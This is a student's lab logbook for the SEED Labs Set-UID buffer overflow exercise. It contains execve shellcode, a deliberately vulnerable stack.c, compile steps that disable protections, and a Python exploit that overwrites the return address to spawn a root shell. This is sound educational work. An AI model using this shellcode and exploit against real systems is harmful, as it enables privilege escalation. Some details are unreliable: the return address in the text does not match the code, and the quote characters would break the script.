

# LOGBOOK5

This document pretends to document the work that was  during week 5 of the FSI course - [link to guide](https://seedsecuritylabs.org/Labs_20.04/Files/Buffer_Overflow_Setuid/Buffer_Overflow_Setuid.pdf).

## Setting up: 

To work on this guide, we will need to change some settings regarding our shell. There are some countermeasures against buffer overflow attacks that we will ignore, by disabling address space randomization and configuring /bin/sh by linking it to another shell without buffer overflow countermeasures. StackGuard and non-executable stack will be turned off during compilation.

## Task 1

This task's aim is to show how shell-code injections work and what their effects are.

We are given 32 and 64-bit shellcode, that when compiled via makefile, generate two binaries, a32.out and a64.out.

If we run them, we will create a new shell inside our terminal, that will allow us to input commands.

``` c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;

   func();
   return 1;
}
```



## Task 2

The purpose of Task 2 is to understand the vulnerable program stack.c and how to exploit it to gain root privilege.

Here is its' source code:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str){
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv){
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

The program above presents a buffer overflow vulnerability. It starts by retrieving input from a file named "badfile" and then transfers this input to another buffer within the bof() function. The original input can extend up to 517 bytes, whereas the bof() buffer is constrained to BUF SIZE which is not enough to accommodate the entire 517 bytes. strcpy() has no boundary checks, making it susceptible to buffer overflows. This program also possesses elevated privileges as a Set-UID program, creating a scenario where an ordinary user, if capable of exploiting this buffer overflow vulnerability, could potentially attain root-level access.

We compile it and turn off StackGuard and the non-executable stack protections using the "-fno-stack-protector" and "-z execstack" options. We then make it a root-owned Set-UID program, by changing its' permissions.

```shell
$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
```

## Task 3

Our objective in this task is to exploit the buffer-overflow vulnerability in the target program. To achieve this, we'll use a debugger-based approach to pinpoint the vulnerability, using gdb to debug the stack-L1-dbg.

print debug

```py
#!/usr/bin/python3
import sys
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode(’latin-1’)
# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))

# Put the shellcode somewhere in the payload
start = 490
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload

ret = 0xFFFFCB96 #if 32 bits senão 0x48
offset = 112 
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)

# Write the content to a file
with open(’badfile’, ’wb’) as f:
f.write(content)
```

We initially set our starting point to 490 because the buffer size is 517 bytes, and our shellcode is 27 bytes in size, leaving us with 490 bytes for the buffer overflow. Our "ret" value is crucial for redirecting the program's execution flow to our shellcode. We have information that the value of "buf" is 0xffffc9fc. By adding 490 to 0xffffc9fc, we obtain our return address, which happens to be 0xffffcbe6.

The "offset" represents the position where we inject our return address to redirect the program's flow towards our shellcode. It's important to note that the address of the "ebp" is 0xffffca68, and since the buffer address is 0xffffc9fc, the "ebp" is located 108 bytes after "ebp." However, an additional 4 bytes must be accounted for, as the "ebp" size is 4 bytes.

To validate our setup, we need to open a terminal where both "exploit.py" and "stack_l1" are located. If we successfully obtain root shell access, our configuration is correct.
